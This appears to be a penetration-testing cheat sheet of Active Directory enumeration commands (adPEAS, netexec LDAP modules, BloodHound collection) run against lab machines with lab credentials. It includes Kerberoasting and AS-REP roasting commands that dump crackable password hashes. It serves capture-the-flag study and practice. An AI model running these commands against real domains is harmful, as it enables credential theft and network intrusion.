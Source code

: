 ## Credentials

### ADPEAS

```
. .\adPEAS.ps1
```

```
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com' -Username 'contoso\johndoe' -Password 'Passw0rd1!' -Force
```

### Password Policy

```
netexec smb dc_ip -u 'test' -p 'test' --pass-pol
```

Fined (elevated):

```
Get-ADFineGrainedPasswordPolicy -filter *
```

### AD NetExec Enumeration Remote

```
netexec ldap administrator.htb -d administrator.htb -u Olivia -p 'ichliebedich' -M whoami

netexec ldap administrator.htb -d administrator.htb -u Olivia -p 'ichliebedich' -M groupmembership -o USER=olivia
```

Modules
```
netexec ldap administrator.htb -d administrator.htb -u Olivia -p 'ichliebedich' --find-delegation

netexec ldap administrator.htb -d administrator.htb -u Olivia -p 'ichliebedich' --trusted-for-delegation

netexec ldap administrator.htb -d administrator.htb -u Olivia -p 'ichliebedich' --asreproast asreproast.hashes

netexec ldap administrator.htb -d administrator.htb -u Olivia -p 'ichliebedich' --kerberoasting kerberoasting.hashes

netexec ldap cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -M get-desc-users
```

### Bloodhound Remote

```
netexec ldap administrator.htb -d administrator.htb -u Olivia -p 'ichliebedich' --dns-server 10.129.44.101 --bloodhound -c All

bloodhound-ce-python -c All -d hutch.offsec -u 'fmcsorley' -p 'CrabSharkJellyfish192' -ns 192.168.222.122
```
